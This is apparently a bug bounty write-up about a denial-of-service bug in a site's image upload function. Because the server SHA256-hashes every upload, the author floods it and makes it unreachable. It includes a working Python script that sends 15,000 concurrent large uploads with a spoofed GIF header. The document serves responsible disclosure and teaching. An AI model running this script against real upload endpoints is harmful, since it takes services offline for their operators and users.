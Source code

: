 ```yaml
---
title: DoS via abusing the Upload Function
date: 2023-12-25
categories: [Writeup]
tags: [writeup, bugbounty, hackerone, hack, cybersecurity, bugbountytip, DOS, bugcrowd, web, pentest]
---
```



Greetings, Hope y'all good and fine!

Recently after finding [DoS via Password Strength Checker Function](https://sawmj.github.io/posts/DOS-via-password-strength-checker/), I found another interesting DoS vulnerability but in another function which is the upload function.

You can check my other DOS write-up here, 

![Alt text](/assets/img/dos-h1/2023-11-09_14-17.png)



This function is very unique as the application uses a method that is not very common


The application has a function that handles image upload to the S3 bucket and instead of letting the users to upload images directly to the s3 bucket, they let users upload images to the application server first and then the server upload the picture to the S3 bucket.

After testing it I figured out the following,

The function takes the uploaded file and it checks on the magic byte of the file to make sure that the uploaded image is one of the following PNG,JPEG or GIF. And then it renames it with random string and add extension to the file as what magic byte it detected and return with the file link from the S3 bucket after uploading it.


![Alt text](/assets/img/dos-h1/2023-11-08_22-59.png)


Now the question is where this file's name comes from?

From the look of it, It seems like a hash value!    
I needed to make further testing, First I need to make sure that this is indeed a hash value and what the exact content they are hashing, Second I need to figure out what kind of hash is this.

First by simply uploading the same file twice the same file's name get generated in the response. This makes it obvious they are hashing the content of the file    
Second, The generated file name is 64 char long which is probably SHA256 as expected and to be 100% sure I tried to hash the same content of the file using SHA256 and indeed it gave back the same value the server did in the file name.


Now we know exactly what happens in the background, How can we take advantage of this?

The answer is in the hashing function,  
Hashing takes processing power to compute and the larger the input the more process power it takes.

So the attack vector was very clear for me from this point, 
All I need is give the server hell of files to compute its hashes until the CPU chokes!

Now my theory is solid and all I need is to write a script to automate the process for me.

I wrote a python script that uploads many files simultaneously and concurrently that looks something like this:


```python
#!/usr/bin/env python3

import urllib3
import requests as req
from hurry.filesize import size
import concurrent.futures


urllib3.disable_warnings()
payload= "AZ"*300000
url= "https://upload-files.REDACTED.com/"
headers= {"Content-Type": "multipart/form-data; boundary=---------------------------10576330173106338099435430878"}


def make_request(payload):

  payload += "Z" * 100

  data = '-----------------------------10576330173106338099435430878\x0d\x0aContent-Disposition: form-data; name=\"data\"; filename=\"saw(1).pnsg\"\x0d\x0a\x0d\x0aGIF87a\x0d\x0asaw{}-----------------------------10576330173106338099435430878--'.format(payload)

  r = req.post(url, headers=headers, data=data, verify=False, timeout=50)

  return r


if __name__ == '__main__':
  with concurrent.futures.ThreadPoolExecutor(max_workers=300) as executor:
    futures = [executor.submit(make_request, payload) for i in range(15000)]

   
    for future in concurrent.futures.as_completed(futures):
      result = future.result()
      
      print(str(result.status_code) + "\t Length: " + size(len(payload)) + "\t" + result.headers['Location'] + " \t " + str(result.elapsed.total_seconds()) + " Seconds")
```

Running this code in a VPS with high bandwidth, It uploads many files to the server.  

After running the script, tried to reach the website from my machine got Gateway Time-out error from the reverse proxy:

![Alt text](/assets/img/dos-h1/2023-11-09_00-35.png)


And Violla as expected the server drowned in the hashing process and couldn't handle any other requests and went completely inaccessible no more.

I went ahead and wrapped a summary along with all PoCs and send a nice report to the program.

![Alt text](/assets/img/dos-h1/2023-11-09_14-17.png)


Unfortunately, this report was classified as medium severity because the program assessed the asset impact to be moderate, given that the vast majority of users don't frequently utilize the upload function.


![Alt text](/assets/img/dos-h1/2023-12-26_23-41.png)


